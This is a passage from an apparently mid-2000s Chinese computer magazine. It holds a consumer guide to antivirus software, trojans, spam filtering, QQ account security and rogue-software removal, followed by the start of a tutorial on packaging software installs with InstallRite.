及时升级系统和工具补丁（不少用户宁可每天花10个小时的时间玩游戏、上网聊QQ，也不愿意花10分钟来进行一下 Windows 的自动更新，这是非常不好的习惯。建议 Windows XP 用户采用全自动的 Windows 的自动更新方式。此外，安装杀毒软件 / 防火墙是治标，及时地打补丁才是治本，随时打好 Windows 补丁是每日必修功课）。

- 方法四：
安装带有病毒即时监控 / 邮件监控的杀毒程序，并及时升级病毒库（很多用户使用的都是正版杀毒软件，但一直忽略了购买正版杀毒软件的最主要和重要的因素是能够获得良好的升级支持服务，不升级病毒库的杀毒软件是无法捕捉到新病毒的。因此至少每2～3天升级一次病毒库，最好能做到每日升级）。

- 方法五：
使用更优秀的软件代替 Windows 默认软件，可以预防针对此类软件的攻击（例如用 Myie2 代替 IE，用 Total Command 代替资源浏览器）。

- 方法六：
使用防火墙软件，将 icmp 反馈禁止，把敏感端口全部禁止掉（在金山、瑞星、KV、天网这类常见的防火墙的设置中，很容易找到 “禁止 icmp 回应”、“禁止 ping 响应” 这样的规则，勾选上就行了）。

- 方法七：
默认的不一定就安全。我们需要修改 Windows 2000/XP 的默认设置，在服务中禁止掉自己不需要的一些服务。例如，messager 和远程操作注册表都是常常被利用的服务程序。

- 方法八：
养成安全意识。安全，从来都不是技术层面上的问题，而是一个意识上的问题。前面7条都是在这一条的基础上得到体现的。如果没有了安全意识，放任昂贵的杀毒软件不升级病毒库、优秀的操作系统不及时修补，那么一切其他的安全防护都是白费。特别是对于目前逐渐成为主流的病毒 / 攻击欺骗而言，如果用户不在主观上保持 “存疑” 的态度，随意接受 / 打开外来的文件，中毒的可能性自然会相当大了。

#### 5. 主流杀毒软件简介

##### （1）诺顿（见图1）


推荐指数：★★★★★
品牌指数：★★★★★
综合评定：★★★★★

概述：无论你是在网上冲浪、聊天、发送电子邮件还是交换文件，Norton AntiVirus 诺顿防病毒都可以防御大量的互联网威胁。它可以自动检测并杀除病毒，除去计算机中不受欢迎的间谍软件，还可扫描电子邮件和即时通信软件附件中的威胁，支持自动进行自我更新。

作为国外老牌杀毒软件，诺顿的杀毒能力是无需质疑的。它对于查杀各种各样的木马和病毒，实在有着不可替代之奇效，而且软件已经做得相当智能和细致化了。可惜的是由于是外国软件，诺顿对国内流行病毒和木马的反应速度比较慢，可能需要相当一段时间才能支持进行查杀。这一点相对有地理优势的国产杀毒软件不能不说是一个很大的缺憾。

##### （2）瑞星（见图2）


推荐指数：★★★★★
品牌指数：★★★☆☆
综合评定：★★★★☆

概述：瑞星杀毒软件不仅可在 Windows 的登录界面下（即系统还未完全启动时）开启实时监控进行防毒，还可以直接启动杀毒软件进行杀毒。通过此功能可以有效查杀一些顽固病毒、木马。软件提供了 “文件、注册表、内存、网页、邮件发送、邮件接收、漏洞攻击、引导区” 八大监控系统，给计算机提供完整全面的保护。八大监控系统不仅能够轻松查杀现阶段所出现的所有已知病毒，更能对未知的病毒、木马、间谍软件进行预先防范。软件还提供了迷你杀毒功能，它只占用极小的系统资源。用户可以在查杀病毒过程中进行其他的工作，而不会感到速度有所减慢。

就单纯的功能特征来说，瑞星与大牌杀毒软件相比并没有差距，但瑞星在病毒检测能力方面相对较弱。瑞星具有很多独特的功能模块，在易用性上瑞星做得也相当不错。瑞星在细节上的一些问题影响了其在基本特征上的良好表现。

##### （3）金山毒霸（见图3）


##### （4）江民（见图4）


概述：金山毒霸的查/杀毒过程不但基于传统的静态磁盘文件和狭义匹配技术，更进一步从网络和数据流入手，极大地提高了查杀木马及其变种的能力。当有最新的病毒库或者功能出现时，只要用户处于上网状态，无需做任何操作，毒霸可将此更新自动下载安装，防止被新病毒感染和破坏。

相对于其他国产杀毒软件，金山软件的性能要稍强一些，其病毒检测能力也很有含金量。无论是漏洞管理还是主动更新，金山所推出的创新功能不但具有很高的实用价值，而且受到了整个国内防病毒产业的认同，其他防病毒厂商也纷纷在产品中集成了类似的功能。而更为难得的是，金山在用户界面方面也下了很大的功夫，将防病毒产品的竞争推向了一个新的境界。

概述：江民杀毒软件可有效清除20多万种的已知计算机病毒、蠕虫、木马、黑客程序、网页病毒、邮件病毒、脚本病毒等。未知病毒主动防御系统综合了病毒共同特征，基于病毒行为检测和处理病毒，可检测绝大部分未知病毒和可疑程序，为保护互联网时代的电脑安全提供了完整的解决方案。

江民作为国内最老牌的防病毒厂商，其产品一贯具有较高的品质。无论是在病毒检测能力还是在用户使用习惯上，江民都具有很强的竞争力。

#### 6. 杀毒软件实战

我们以金山毒霸2007为例，来讲解一般杀毒软件的使用方法。

##### (1) 启动程序

正确安装金山毒霸2007后，在Windows任务栏状态区中（任务栏右边的区域）双击金山毒霸的小图标或右键单击该图标，在弹出的菜单中选择“打开金山毒霸主程序”，即可启动金山毒霸2007的主程序（见图5）。

将主界面上方的选项切换至系统状态页面，便可查看系统安全状态，内容包括：文件实时防毒、邮件监控、网页安全保护三项。界面中，绿色的钩表示该项已开启，红色的叉表示该项已关闭。建议将这三项保护全部打开。单击安全状态栏的任一项，右面版中都会显示该项的详细说明以及开启/关闭按钮。


在系统安全状态的下方可查看升级信息及服务时间。单击查看升级信息及服务时间栏，右面版中会显示升级信息的详细说明等，还可以进行自动升级和服务时间的充值。

自动升级状态可设定为实时升级、自动监测、定时升级和关闭四种状态，我们在这里强烈推荐采用实时升级。

##### (2) 升级病毒库

在开始使用查/杀毒功能前，我们首先要先把它的病毒库升级到最新版本。

在金山毒霸 2007 主界面系统状态页面，单击“综合设置→升级设置”，或在金山毒霸 2007 主界面菜单栏单击“工具→升级设置”（见图6）。


推荐用户选择“实时升级，自动下载升级数据并自动安装”，这样即可在无须用户任何干预的情况下，保证病毒库最新（当然需要有网络连接，建议可以长时间在线的用户使用）。用户也可根据需要设置有可用更新时接收通知，并自行选择是否下载升级数据再升级数据，比较适合不是长时间在线的用户使用。选择“定时下载升级数据，并自动安装”，则可设定在每周的某一具体时间，定时下载安装。不推荐关闭自动升级功能。

##### (3) 杀毒方法

在病毒库更新后，我们就可以开始对系统进行病毒检测了。金山毒霸2007提供了多种查/杀病毒的方法，下面我们一一介绍。

###### A. 闪电杀毒：

闪电杀毒能够快速地对用户系统进行一次扫描。通常，闪电杀毒是针对一些常见的病毒和当前最流行的一些病毒进行扫描，在大多数情况下命中率较高。其特点是速度快，能够迅速判断，但由于不使用全部病毒特征库，有可能出现漏杀的情况（见图7）。


在金山毒霸 2007 的主界面，选择一个扫描目标（通常选择“我的电脑”来扫描整个系统，也可根据用户的实际需要选择相应的目标），在右面板单击“闪电杀毒”即可。
经过一段时间的扫描后，如果系统内没有病毒或风险程序，则直接弹出查毒报告；如果发现用户的系统中存在风险程序，则弹出风险程序处理界面，请单击“清除”。清除完成，弹出查毒报告，你可以单击“完成”也可单击“查看日志”。

要打开闪电杀毒的设置面板，可单击金山毒霸 2007 主界面系统状态页面的“综合设置→杀毒设置→用户自定义→闪电杀毒”（见图8）。


在设置选项中，系统推荐扫描程序以及文档文件，以提高闪电杀毒的速度。我们在这里推荐用户使用默认选项，因为闪电杀毒本来就是不全面的杀毒方式，扫描全部文件意义不大。如果要进行彻底的病毒清查，建议采用后面要讲到的“全面杀毒”。
金山毒霸 2007 可以自动检测用户机器上 CPU 类型是否为 Intel Pentium 4 处理器或采用 Intel Pentium 4 核心技术的同等级别的赛扬处理器。如果是，则会自动默认选定“开启 Intel Pentium 4 指令优化”来进一步提高金山毒霸 2007 的查杀效率。如果用户的 CPU 支持英特尔超线程（Intel Hyper-Threading）技术，则“开启 Intel Hyper-Threading 优化”也会自动开启，更加充分发挥超线程的功效。 这是金山毒霸 2007 对新型硬件技术的及时支持和相应优化的体现，有了这些新技术更加能够“闪电”般地进行杀毒。

###### B．右键查杀

“右键方式杀毒”是金山毒霸一直沿用的传统杀毒功能，适合对单个可疑文件 / 文件夹的扫描。使用方法很简单：选中一个文件或文件夹，单击鼠标右键，从弹出的菜单中选择“使用金山毒霸进行扫描”即可激活金山毒霸开始扫描。

###### C．屏保查杀

屏保杀毒是充分利用电脑空闲时间，在不影响用户工作的情况下，确保用户电脑免受病毒之害的一种杀毒方式。

要使用这项功能，需要设置好屏保的各项设置。单击金山毒霸 2007 主界面系统状态页面的“综合设置→杀毒设置→用户自定义→屏保杀毒”打开屏保杀毒的设置面板（见图9）。


这里我们推荐用户使用全部的默认设置。要注意的一点是，所有对屏保杀毒进行的设置都必须以选中“将毒霸专用屏保作为系统当前屏保”为前提。

###### D．全面查杀

全面查杀是使用全部病毒库文件对系统进行全面检测的查 / 杀毒方式，也是最为安全彻底的方式。虽然耗费的时间较长，但出于安全的考虑，建议用户多使用这种方式来查杀病毒。

在金山毒霸 2007 的主界面“快捷方式”选项卡中，选择一个扫描任务（建议选择“我的电脑”以保证扫描全面），之后在右面板单击“全面杀毒”即可（见图10）。


全面扫描速度较慢，请用户耐心等待。经过一段时间后扫描结束，如果发现用户的系统中存在风险程序，则弹出风险程序处理界面，请单击“清除”（见图11）。
清除完成，弹出查毒报告，你可以单击“完成”也可单击“查看日志”（见图12）。


单击金山毒霸2007主界面系统状态页面的“综合设置→杀毒设置→用户自定义→全面杀毒”打开全面杀毒的设置面板（见图13）。


建议不要修改默认设置以保证杀毒效果。

单击界面中的“高级”，弹出高级设置页面，包括清除病毒设置和未知病毒检测。默认推荐清除病毒前将文件备份至隔离区。在这里，页面里还可以选择精细查毒模式，此模式可能会降低查毒的速度。

##### （4）病毒处理

当金山毒霸2007在你的系统中发现病毒时，根据病毒扫描处理措施设置不同，处理的方法也是不同的。

金山毒霸2007在扫描中发现的病毒或包含病毒或潜在安全风险的文件有如下处理方式。

- 第一种：自动清除
在这种方式下，金山毒霸会自动清除发现的病毒，清除后会在Windows任务栏的状态区弹出“病毒已清除”的提示对话框及该病毒的存在路径详细信息等，你可以单击“查看”来了解该病毒的详细情况。

- 第二种：通知并让用户选择处理
金山毒霸发现病毒时，会在Windows任务栏的状态区弹出提示的对话框，并提醒你采取查杀方式清除病毒。你可以选择处理的方法。

- 第三种：隔离
隔离是指将受感染的文件放入病毒隔离系统内，但威胁并没有完全消除。如果你希望金山毒霸能帮助你分析该怀疑感染是由某种未知威胁引起的，则可选择“隔离”选项。

- 第四种：跳过
仅通知用户，不对染毒文件做任何操作。这种处理方法并不能解决任何问题，病毒依然存在。在下次执行相同操作时还会得到警报。

- 第五种：禁止访问此文件
禁止一切程序对此带病毒文件的访问。

- 第六种：直接禁止脚本运行
出现在网页安全保护设置中，可以阻止脚本。

除网页安全保护在发现病毒时推荐使用“通知并让用户处理”外，在其他情况下，系统在发现病毒时均推荐优先使用“自动清除”，当不能够自动清除时，建议“隔离”。

##### （5）病毒隔离系统

金山毒霸2007将扫描中发现的以下三类文件放入文件隔离区。

- 第一类：杀毒过程中，可以发现病毒，但不能杀的染毒文件；
- 第二类：感染未知病毒文件；
- 第三类：用户怀疑但不能确定是否含有病毒的可疑文件（见图14）。


单击金山毒霸2007主界面菜单栏的“工具→病毒隔离系统”即可打开病毒隔离系统。

双击被隔离的文件，弹出有关该文件属性的对话框以及金山毒霸对你提出的建议。

##### （6）可疑文件扫描

金山毒霸的可疑文件扫描功能，可以搜索用户系统中疑似病毒的可疑程序。扫描程序可以列出并记录下所有可疑程序的详细情况，包括文件名、文件大小、时间日期、存在路径及存在的原因。用户可具体分析（见图15）。


单击金山毒霸2007主界面菜单栏的工具。在下拉菜单中选择“可疑文件扫描”。单击“开始扫描”，扫描开始。

在扫描进度中显示扫描的路径。
完成后显示扫描到的可疑文件的详细信息。如果确认此文件可疑，单击“立即上报”，弹出选择上报方式的对话框。系统推荐通过网络将可疑文件直接上报给金山公司。用户也可选择先保存到磁盘中，以后通过其他途径提供给金山公司。

### 二、木马篇

#### 1. 木马介绍及危害

木马一词起源于希腊神话《木马屠城记》。与一般的病毒不同，它不会自我繁殖，也并不“刻意”地去感染其他文件，它通过将自身伪装吸引用户下载执行，向施种木马者提供打开被种者电脑的门户，使施种者可以任意窃取被种者的文件，远程操控被种者的电脑，盗取银行账户密码、游戏账户密码等等。

#### 2. 如何预防木马

不要打开来历不明的文件，包括邮件附件和P2P软件发过来的文件。安装个人防火墙软件，在防火墙设置时，非必须打开的服务、端口全部关闭。保持操作系统的更新，减少漏洞。下载软件要到可信的知名网站。并仔细阅读安装说明。

#### 3. 如何判断自己是否中了木马

由于木马的隐蔽性，通常用户并不能很容易地发现自己已经中了木马。但如果系统有如下问题，就应该警惕了：系统速度突然变慢，CPU利用率上升，没有进行任何网络相关操作时网络连接显示在接收和发送数据，硬盘频繁读盘，系统配置被更改，硬盘里多了来源不明的文件等。

#### 4. 发现中木马后：亡羊补牢，斩断黑手

无论什么木马都是通过网络来传输数据的。如果发现系统中有木马，要立即断开网络连接，切断木马的传输通道。
所有的账号和密码都要马上更改，例如网上银行、拨号连接、QQ、FTP、你的个人站点、邮箱等等，凡是需要密码的地方，保险起见，都要把密码尽快改掉。
如果有条件的话，根据发现的线索确定木马的名称版本，在备份好重要数据之后，用专杀工具清除木马。在无法确认或者上面方法不奏效的情况下，重装系统有时是最好的选择。安装之后要注意做好系统升级，安装防火墙，并用防病毒防木马软件对系统做一次彻底的扫描。

#### 5. 清除木马——木马克星

对于普通用户而言，最方便安全的方法就是使用专门的防/反木马软件来预防和清除木马。我们以木马克星这个软件为例，来讲解清除木马的方法。
打开木马克星软件，首先将病毒库更新到最新版本，之后单击“扫描内存”或“扫描硬盘”（见图16）。
软件可自动检查并杀除系统中的木马。


### 三、邮件防护篇

#### 1. 垃圾邮件介绍

“垃圾邮件”是指用户并没有主动请求而强制发送给用户的电子邮件，也可以是发送给多人的同一信件。这些电子邮件虽然每封的信息量不一定很大，但是邮件内容通常不是大多数用户需要，甚至是令大多数用户讨厌的。铺天盖地的垃圾邮件不仅侵犯了用户的私人空间，而且干扰了大多数用户正常使用电子邮件功能，同时给用户带来了上网时间和上网资金上的浪费。
国际互联网上的常见名词SPAM、UCE（Unsolicited Commercial Email不请自来的商业电子邮件）和UBE（Unsolicited Bulk Email不请自来的批量电子邮件）都是指这种垃圾邮件。

#### 2. 拒绝垃圾邮件指南

- 方法一：对不请自来的电子邮件，不要有任何响应。
- 方法二：不要把您的邮件地址在众多网站页面上到处登记，尤其是一些不知根底的网站。
- 方法三：使用专业的邮件处理软件。
- 方法四：不要把你的邮件地址告诉陌生人和你不信任的人。
- 方法五：不要订阅一些不健康的电子杂志。
- 方法六：慎用邮箱的“自动回复”功能。
- 方法七：建议你使用多个电子邮箱，用一个专门的邮箱进行私人通信，而用其他邮箱订阅电子杂志。

#### 3. Foxmail防垃圾

Foxmail是一个中文版电子邮件客户端软件，它提供了强大的反垃圾邮件功能，能够准确识别垃圾邮件与非垃圾邮件。垃圾邮件会被自动分拣到垃圾邮件箱中，有效地降低垃圾邮件对用户的干扰，最大限度地减少用户因为处理垃圾邮件而浪费的时间。Foxmail使用了“黑名单”、“白名单”、“规则法过滤”、“学习法过滤（贝叶斯法过滤）”等技术，综合应用这些技术，Foxmail就能够准确地识别垃圾邮件。
Foxmail的反垃圾邮件实现过程如下：
收取邮件时，Foxmail首先使用“黑名单”对邮件进行判断，如果发件人的E-mail地址或名字包含在黑名单中，则把该邮件判定为垃圾邮件并转移到“废件箱”，否则，继续进行判断。
接着使用“白名单”对邮件进行判断，如果发件人的 E-mail 地址包含在“白名单”中，则把该邮件判定为非垃圾邮件，否则，继续进行判断。
然后使用“规则法过滤”对邮件进行判断。在Foxmail中定义了完善的垃圾邮件规则，每条规则对应一个分数，当邮件符合某一条规则，则给邮件增加相应的分数，当邮件得到的分数达到一定值时，就把该邮件判定为垃圾邮件，否则，继续进行判断。
最后使用“学习法过滤（贝叶斯法过滤）”对邮件进行判断。通过学习垃圾邮件和非垃圾邮件，Foxmail收集邮件中的特征词语，生成垃圾词库和非垃圾词库。判别邮件时，使用一定的算法，根据“垃圾词语”和“非垃圾词语”在邮件中出现的频率，判定邮件是否为垃圾邮件。
在默认设置状态下，被判定为垃圾邮件的邮件将被转移到“垃圾邮件箱”中，非垃圾邮件保存在收件箱中。
启动Foxmail。通过“反垃圾邮件设置”对话框，可以对Foxmail反垃圾邮件功能选项进行设置。单击“工具”菜单，选择“反垃圾邮件设置”命令，将弹出“反垃圾邮件设置”对话框（见图17）。


在“常规”选项可以进行以下设置：

- 选中“接收邮件中被判定为垃圾邮件的自动转移到垃圾邮件箱”复选框，将把接收到的垃圾邮件自动转移到“垃圾邮件箱”。
- 选中“邮件被手工标记为垃圾邮件时”复选框时，如果选中“转移到垃圾邮件箱”单选框，那么，当把邮件标记为垃圾邮件时，将把邮件转移到“垃圾邮件箱”；如果选中“删除”单选框，那么，当把邮件标记为垃圾邮件时，将把邮件转移到“废件箱”（见图18）。


在“规则过滤”选项可以进行以下设置：

选中“使用规则判定接收的邮件是否为垃圾邮件”复选框，将使用垃圾邮件判定规则判定收到的邮件是否为垃圾邮件。Foxmail内置了完善的垃圾邮件判定规则，能够在不需要用户干预的情况下很好地判断出垃圾邮件。
拖动“过滤强度”滑块，可以设置规则过滤判定邮件的强度。设置强度为“高”则邮件判定为垃圾邮件的可能性增大，更容易把收到的邮件判定为垃圾邮件；设置强度为“低”则邮件被判定为垃圾邮件的可能性减小（见图19）。


在“贝叶斯过滤”选项可以进行以下设置：

选中“使用贝叶斯概率模型判定接收的邮件是否为垃圾邮件”复选框，将使用贝叶斯概率模型判定接收的邮件是否为垃圾邮件。使用贝叶斯过滤法之前，需要让Foxmail学习足够多的邮件，要求不少于1000个垃圾邮件和1000个非垃圾邮件，具体介绍请参考学习邮件。
拖动“过滤强度”滑块，可以设置规则过滤判定邮件的强度。设置强度为“高”则邮件判定为垃圾邮件的可能性增大，更容易把收到的邮件判定为垃圾邮件；设置强度为“低”则邮件被判定为垃圾邮件的可能性减小（见图20）。


在“黑名单”选项卡，可以看到当前的黑名单列表。使用对话框中的“添加”、“编辑”和“删除”按钮，可以对黑名单进行修改（见图21）。


在“白名单”选项，可以看到当前的白名单列表。使用对话框中的“添加”、“编辑”和“删除”按钮，可以对白名单进行修改；单击白名单列表上的“姓名”和“E-mail”，可以对白名单列表进行排序；单击“从地址簿导入”按钮，将把地址簿中的联系人导入到白名单中；单击“从邮箱导入”按钮，从将弹出的选择邮箱对话框中选择一个邮箱，将该邮箱所有邮件的联系人地址添加到白名单中。

#### 4. Web登录邮箱反垃圾邮件设置

在使用Web登录邮箱时，同样可使用邮箱本身自带的反垃圾功能进行垃圾邮件过滤。我们以163免费邮箱为例。
登录免费邮箱，单击“邮箱选项”（见图22）。


163邮箱提供了“黑名单”、“白名单”、“过滤器”等防垃圾方法。其原理和Foxmail是类似的。下面我们只讲解使用方法。
单击“黑名单”/“白名单”，可用手动添加的方法添加黑白名单（见图23）。


单击“过滤器”，新建一个过滤器。之后可以根据接收到垃圾邮件的特点定制一个过滤器对类似的垃圾邮件进行过滤。例如，如果接收到的垃圾邮件主题中有一定的关键字，或是来源固定，都可以成为过滤的条件。多个条件可以共同使用，也可以建立多个过滤器。过滤掉的邮件可以直接拒收，也可以转移到一个特定的文件夹。建议在web邮箱中建立一个名为“过滤邮件”的文件夹，将过滤掉的邮件都转移到这个文件夹内，以免过滤器错误过滤误删除了正常邮件（见图24）。


“反垃圾级别”提供了一个简易的自动反垃圾的分级选择。用户可根据自己实际需要选择合适的反垃圾级别。建议垃圾邮件判断方法慎选“高级”；对于垃圾邮件的处理也不要直接拒收（见图25）。


### 四、QQ安全篇

QQ已成为国内最流行的即时通信软件，是网上信息交流必不可少的工具。在国内，几乎每一台可以上网的电脑都安装了QQ。我们在享受网络聊天的快乐的同时，也会频频遭遇号码被盗、消息骚扰等令人措手不及的攻击。为了确保我们的QQ更安全，了解一些防范技巧，对能够在网上“畅聊无阻”是有所帮助的。

#### 1. QQ日常使用注意事项

##### (1) 使用消息保护（见图26）


对于在家或固定上网的朋友来说，如果能够保证你的系统只有你自己使用，而且非常安全，可以使用“普通模式”。但我们在这里还是推荐用户使用“消息保护模式”。选择该方式登录后，即使别人得到了你的聊天记录文件，没有密码也无可奈何。注意，不要用QQ的登录密码作为消息保护的密码，否则消息保护这项功能就没什么意义了（见图27）。


在开启“消息保护”功能时，建议同时开启“口令提示”，这样万一忘记消息保护密码，也不至于自己都进不去。如果在首次登录时没有设置，也可以这样设置：单击“菜单→安全设置”，然后切换到“本地信息安全”，勾选安全和麻烦似乎是一对冤家，为了安全，就请用户忍受一下那一点操作上的麻烦吧。

##### (2) 让消息彻底“消失”

特别强调一下在网吧或不固定场所上网的情况。由于网吧的特殊性，在网吧上网时我们应该在登录界面的“登录模式”中选择“网吧模式”。这样在关闭QQ的时候，QQ会自动提醒我们是否删除该号码的登录记录，点“是”后，我们的QQ信息就不会留在网吧的电脑上了。这种方法简单有效，可以很好地保护自己的隐私！

##### (3) 喜新厌旧

QQ密码被盗通常都是被木马窃取。为了防范木马破解，首先我们要保证用最新版的QQ。理由很简单：新版的QQ是在旧版的基础上改进而成的，在功能方面有很大的改善，在安全方面也都大作了文章。用最新版的QQ，就相当于你无形中打了很多补丁。这样用起QQ来当然是“爽”了。

##### (4) 做好密码保护

密码保护是防止QQ被盗的重要方面。下面提供一些常见的技巧和防护方法，大家只要在聊QQ时运用这些技巧，就能在一定程度上减少QQ密码被盗的事情发生。
首先要提高警惕。很多用户为了方便，只有一两个密码，到处用。邮箱、QQ甚至银行账号的密码都是同一个，这是一种很危险的做法。试想，假如有人得到了用户邮箱或QQ等任何一个密码，也就等于获知了用户的所有密码，用户在网络上的所有隐私。因此，有多个密码，分门别类地设置并妥善保管好密码，是每个重视安全的用户的必然选择。
其次要使用优秀的杀毒软件和防火墙，并及时升级病毒库，上网时打开杀毒软件的病毒监控，以及打开防火墙。有防火墙的好处是，很多盗QQ密码的恶意软件在得到了QQ密码后，都会往外以邮件或其他方式通知盗Q者；防火墙就能有效的拦截住这个出口，如果盗Q者收不到你的密码信息，那么即使密码被盗，QQ密码的恶意软件记录了也没什么危险。
再次要经常更换密码。最好是定期更换密码，推荐1～3个月更换一次。更换时可以根据一个自己熟悉的规律来设置密码（例如根据月份、年份不同来设置末几位，或者自己设置一个循环等），这样不至于变来变去后连自己都忘记了。


忘记了。
最后来讲一下密码输入的技巧。一种安全的密码输入方法是颠倒混乱输入。假如你的QQ密码是“hoiu24935”，在输入时不要按顺序一次输入，因为如果中了木马，键盘操作是会被记录下来的，你可以先输入“iu249”，然后把光标移到“i”前面再输入“ho”，把光标移到最后输入“35”这样你输入的密码依然是“hoiu24935”，但在通过键盘输入记录下来的是“iu249ho35”，从而有效保护了你的密码。另外一种方法是，在登录输入密码时，要用上QQ提供的软键盘，即使盗Q软件能记录鼠标动作，却不容易得到你的真正密码。

##### (5) 未雨绸缪防丢失

丢了QQ密码再来找很麻烦，不如采取措施来尽量避免QQ被盗带来的麻烦。如果没有申请过QQ密码保护功能，立即去申请，这样就能一万个放心，不怕QQ被偷。目前版本的QQ的内置的安全中心功能，也可以有效防止你的QQ被盗。还要提示一下：不要相信所谓充Q币、送Q币、送优秀QQ号码的广告，天下没有白吃的午餐。贪便宜就可能会失去你心爱的QQ号。

#### 2. QQ被盗后如何寻回QQ密码

##### (1) QQ密码找回的几个重要关键词

- QQ密码保护：
QQ密码保护是由腾讯提供的一套保障QQ密码安全的保护机制。通过给你的QQ号填写对应的相关资料，如证件号、安全提示问题、安全邮箱等，给用户的QQ号穿一件防弹衣。一旦出现问题，就可以通过事先设置好的QQ密码保护找回QQ密码。

- QQ密码修改（重设QQ密码）：
如果用户开启了QQ密码保护，就可以通过它快速进入QQ密码找回程序，腾讯会为你的QQ号重设一个随机密码，然后将它发到你在填写资料时预设的安全邮箱中。这样你就可以重新拥有你的QQ了。

- 手机取回QQ号码：
这是找回QQ密码的最新途径。要使用这个功能，需要开通QQ会员并将手机号与QQ绑定。使用时，通过手机发送相关指令到固定号码，可以强制性取回你的QQ密码。

- QQ号码申诉：
QQ号码申诉是最后一条路，通过所有其他途径无法找回密码时，可以用它。QQ号码申诉就像一场你与盗Q者的官司，腾讯是审判长。你可以向腾讯提供所有能证明你是QQ号真正主人的证据，如以前加过的好友的QQ号码、最后使用被盗号码的地点等等。如果证据真实有效，腾讯就会把QQ号从盗号者手中取回来还给你。

##### (2) 找回QQ密码的具体步骤

###### A. 前提一：用户以前申请过QQ密码保护

- 状况一：用户还记得当时填的密码保护问题和安全邮箱地址
设密码（见图29）。


- 状况二：我还记得我的密码保护资料，不过我不记得我的安全邮箱了；我的安全邮箱里收不到密码重设邮件。
解决方法：重新设一个安全邮箱，最好不是免费邮箱，填写当初的证件号码和新旧安全邮箱即可。修改全部密码保护资料，把所有资料重设一遍后再重找一次。

- 状况三：我不记得密码保护问题了
解决方法：这种情况下就不能直接找回QQ密码了，只能去申诉。是QQ会员的话，就用手机找回。

###### B. 前提二：用户没有申请过QQ密码保护

- 状况一：用户是QQ会员
解决方法：直接用手机找回QQ密码。
- 状况二：用户不是QQ会员
解决方法：这种情况下只能申诉了。去http://service.qq.com/psw/mo.shtml?psw_ss.htm向腾讯列举资料证明你是QQ的真正主人。尽可能多填出一些能说服腾讯的材料吧（见图30）。


申诉完成，不管成功不成功，腾讯都会在客户端和新的安全邮箱里通知你处理结果。
除了以上的找回方法，还有一个小技巧。当你正在上QQ时，如果出现提示“你的QQ已从别处登录”，假如你不知道是谁在上自己的号码，或者没有别人知道你的密码，只可能是有人在盗你的QQ。这时候马上进入主面板的安全设置，抢在对方在修改密码前先改一个密码，让原来的密码失效，这样他就没法了。
找密码很痛苦的一件事情，大家最好要有较强的安全意识，不要随意泄露自己的QQ密码、不挂机、经常杀杀病毒木马、增加密码复杂程度、定期更换密码，让QQ真正能够得心应手。

### 五、流氓软件/插件篇

#### 1. 流氓软件/插件介绍

流氓软件，区别于正常软件，是指破坏系统正常运行的软件。一般来说，这类软件有如下表现形式：强行安装，无法卸载；安装以后修改主页且锁定；安装以后随时自动弹出广告；自我复制代码，类似病毒一样，拖慢系统速度等等。
插件是指会随着IE浏览器的启动而自动加载执行的程序。插件程序设计的初衷是为了帮助用户更方便浏览因特网或调用上网辅助功能。由于插件程序由技术水平良莠不齐的不同发行商发行，故插件程序很可能与其他运行中的程序发生冲突，从而导致诸如各种页面错误，运行时间错误等等现象，阻塞了正常浏览。
一部分插件现在已经演变成了广告软件(Ad ware)或间谍软件(Spy ware)。此类恶意插件程序强行弹出窗口，监视用户的上网行为并把所记录的数据报告给插件程序的创建者，以达到投放广告、盗取游戏或银行账号密码等非法目的。

#### 2. 清除流氓软件/插件——360安全卫士

360安全卫士是一款安全类上网辅助软件，它拥有查杀恶意软件、插件管理、病毒查杀、诊断及修复四大强劲功能，同时还提供弹出插件免疫，清理使用痕迹以及系统还原等特定辅助功能。
打开360安全卫士，我们可以看到界面（见图31）。
要查杀恶意软件，只需单击“查杀恶意软件”选项卡，
360安全卫士会自动扫描电脑内的恶意软件，扫描到的恶意软件会以列表形式显示出来。用户可选择要清除的恶意软件，然后对其进行清除。
如果系统中没有恶意软件，就会出现如下界面（见图32）。
360安全卫士目前可以全面清除174个恶意软件。每周软件还会进行更新，保证最全最新的恶意软件不漏网。
一些比较顽固的恶意软件会采用自我变形，更改路径，更改文件的方法来伪装自己，防止被用户删除。变形后的恶意软件可能会漏网，暂时不能列在的360安全卫士恶意软件列表中。这种情况下，用户可以选择“举报恶意

## 少林“一指禅”——键盘版

文/TMG ly

现代社会讲求高效率、快节奏，时间就是生命，时间就是财富。当面对同一台电脑，同一个键盘，大量的工作，你怎样才能提高工作效率，抢占先机呢？下面，笔者就教大家一种可以高效利用键盘的“一指禅”神功，让你在“弹指一挥间”，快速完成计算机操作。

### 一、基础篇

#### 1. “一指禅”神功之第一式：一键装程序

爱机由于长时间疲于奔命地工作，又加之时不时被病毒感染等这样那样的原因，最终导致爱机崩溃罢工，怎么办？看来只有重装操作系统了。安装操作系统倒不费劲，现在都是无人值守了。恼人的是一大堆常用应用软件的安装，一等就是好长时间。即使一个常用的杀毒软件或办公软件的安装，至少也要十几分钟，如果加上其他软件如QQ、ACDSee、Photoshop、Nero，要等到设置好应用选项、安装完毕，恐怕半天的时间就在这毫无意义的忙碌中流逝了。那有没有一劳永逸的办法呢？当然有！现在，借助一款十分有用的工具InstallRite，可以将“一指禅”神功发挥到极致，让软件重装一气呵成，把用于等待的宝贵时间节约出来用在“刀刃”上。

大家可以到 http://jyxxzx.dsedu.edu.cn/download/view.asp?id=126 下载该软件。

InstallRite 操作起来非常简单，它会对电脑上的某一个应用程序做映像文件，每次当你需要安装新的应用程序时，InstallRite 都会进行监视，把所有软件安装资料存起来，它所产生的映像文件是可执行的文件，你将它存储在光盘、服务器或硬盘上都不会影响它正常执行还原程序。我们就以制作 Office 2003 的安装包为例，把这个软件的使用和功能简单介绍一下。

软件运行后出现如下界面，如图1所示。

##### 步骤一：

单击该界面中第一项“Install new Software and Create an Install Kit”，即“安装新软件并制作安装包”，这时会出现一个配置提示窗口，高级用户可以对窗口中的扩展名、磁盘、注册表等进行设置，作为普通用户采用默认配置即可。如图 2 所示。

##### 步骤二：

单击“下一步”按钮，这时程序提示我们创建一个当前系统的快照，为的是与安装 Office 2003 后的系统快照进行对比，以便生成最终的安装文件。
单击“下一步”按钮，InstallRite 会自动建立快照。

##### 步骤三：

在建立完快照后的弹出的窗口中，InstallRite 会要求提供安装软件的程序文件名称，在文本框中直接填入路径及文件名，或单击其后面的“倒三角”按钮进行选择，设置完成后单击“下一步”按钮。如图 3 示。

##### 步骤四：

这时系统开始打开 Office 2003 的安装程序进行自动安装，安装后 InstallRite 开始收集 Office 2003 安装后在系统中写入的各种信息，并弹出一个输入框提示我们输入安装包的名称，输入“Office 2003”，然后点击[OK]按钮，进入完成界面。

##### 步骤五：

